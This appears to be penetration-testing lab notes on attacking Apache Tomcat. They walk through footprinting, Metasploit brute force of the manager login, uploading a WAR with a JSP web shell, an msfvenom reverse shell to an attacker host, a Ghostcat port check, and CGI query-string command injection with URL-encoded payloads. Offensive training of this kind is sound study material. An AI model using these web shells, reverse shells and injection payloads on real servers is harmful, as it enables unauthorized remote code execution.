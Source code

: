 

Apache Tomcat is an open-source web server that hosts applications written in Java. 

# Discovery/Footprinting

    

Tomcat servers can be identified by the Server header in the HTTP response. If the server is operating behind a reverse proxy, requesting an invalid page should reveal the server and version.

Custom error pages may be in use that do not leak this version information. In this case, 
another method of detecting a Tomcat server and version is through the /docs page.

`$ curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat `


Here is the general folder structure of a Tomcat installation.

```
├── bin
├── conf
│   ├── catalina.policy
│   ├── catalina.properties
│   ├── context.xml
│   ├── tomcat-users.xml
│   ├── tomcat-users.xsd
│   └── web.xml
├── lib
├── logs
├── temp
├── webapps
│   ├── manager
│   │   ├── images
│   │   ├── META-INF
│   │   └── WEB-INF
|   |       └── web.xml
│   └── ROOT
│       └── WEB-INF
└── work
└── Catalina
        └── localhost
```




- The bin folder stores scripts and binaries needed to start and run a Tomcat server. 

- The conf folder stores various configuration files used by Tomcat. (The **tomcat-users.xml** file stores user credentials and their assigned roles. )

- The lib folder holds the various JAR files needed for the correct functioning of Tomcat. 
- The logs and temp folders store temporary log files. 
- The webapps folder is the default webroot of Tomcat and hosts all the applications. 
- The work folder acts as a cache and is used to store data during runtime.

Each folder inside webapps is expected to have the following structure.

```
webapps/customapp
├── images
├── index.jsp
├── META-INF
│   └── context.xml
├── status.xsd
└── WEB-INF
├── jsp
|   └── admin.jsp
└── web.xml
└── lib
|    └── jdbc_drivers.jar
└── classes
     └── AdminServlet.class
```

        
The most important file among these is `WEB-INF/web.xml`, which is known as the deployment descriptor. This file stores information about the routes used by the application and the classes handling these routes. All compiled classes used by the application should be stored in the WEB-INF/classes folder.

Here’s an example `web.xml` file.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE web-app PUBLIC "-//Sun Microsystems, Inc.//DTD Web Application 2.3//EN" "http://java.sun.com/dtd/web-app_2_3.dtd">
<web-app>
        <servlet>
                <servlet-name>AdminServlet</servlet-name>
                <servlet-class>com.inlanefreight.api.AdminServlet</servlet-class>
        </servlet>
        <servlet-mapping>
                <servlet-name>AdminServlet</servlet-name>
                <url-pattern>/admin</url-pattern>
        </servlet-mapping>
</web-app>   
```



# Enumeration

we'll typically want to look for the `/manager` and the `/host-manager` pages.
        
        
# Tomcat Manager - Login Brute Force

We can use the `auxiliary/scanner/http/tomcat_mgr_login` Metasploit module for these purposes, Burp Suite Intruder or any number of scripts to achieve this. We'll use Metasploit for our purposes.

```

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set VHOST web01.inlanefreight.local

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set RPORT 8180

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set stop_on_success true

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
```

# Tomcat Manager - WAR File Upload


Many Tomcat installations provide a GUI interface to manage the application. This interface is available at `/manager/html` by default, which only users assigned the manager-gui role are allowed to access. Valid manager credentials can be used to upload a packaged Tomcat application (.WAR file) and compromise the application. A WAR, or Web Application Archive, is used to quickly deploy web applications and backup storage.




[java webshell](   https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp)

```
$ wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp

$ zip -r backup.war cmd.jsp 
```

- Click on Browse to select the .war file and then click on Deploy.

If we click on backup, we will get redirected to `http://web01.inlanefreight.local:8180/backup/ `and get a 404 Not Found error. We need to specify the cmd.jsp file in the URL as well. Browsing to `http://web01.inlanefreight.local:8180/backup/cmd.jsp` will present us with a web shell that we can use to run commands on the Tomcat server

### WAR reverse shell with msfvenom

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war
```
Start a Netcat listener and click on /backup to execute the shell.




# CVE-2020-1938 : Ghostcat
        

AJP stands for Apache Jserv Protocol, which is a binary protocol used to proxy requests. This is typically used in proxying requests to application servers behind the front-end web servers.

The AJP service is usually running at port 8009 on a Tomcat server. This can be checked with a targeted Nmap scan.

`$ nmap -sV -p 8009,8080 app-dev.inlanefreight.local`

        



# Attacking Tomcat CGI


The CGI Servlet is a vital component of Apache Tomcat that enables web servers to communicate
with external applications beyond the Tomcat JVM. These external applications are 
typically CGI scripts written in languages like Perl, Python, or Bash. The CGI Servlet 
receives requests from web browsers and forwards them to CGI scripts for processing.


In essence, a CGI Servlet is a program that runs on a web server, such as Apache2, to  support the execution of external applications that conform to the CGI specification. 
It is a middleware between web servers and external information resources like databases.

The enableCmdLineArguments setting for Apache Tomcat's CGI Servlet controls whether command  line arguments are created from the query string. If set to true, the CGI Servlet parses the query string and passes it to the CGI script as arguments.




### Enumeration

```
$ nmap -p- -sC -Pn 10.129.204.227 --open 

8080/tcp  open  http-proxy
|_http-title: Apache Tomcat/9.0.17
|_http-favicon: Apache Tomcat
```


### Finding a CGI script

One way to uncover web server content is by utilising the ffuf web enumeration tool along with the 
dirb common.txt wordlist. Knowing that the default directory for CGI scripts is /cgi, either through 
prior knowledge or by researching the vulnerability, we can use the URL 


`http://10.129.204.227:8080/cgi/FUZZ.cmd or http://10.129.204.227:8080/cgi/FUZZ.bat`

to perform fuzzing.





## Exploitation


`http://10.129.204.227:8080/cgi/welcome.bat?&dir`



If the attempt was unsuccessful, and Tomcat responded with an error message indicating that an invalid 
character had been encountered, the filter can be bypassed by URL-encoding the 
payload.

`http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe`








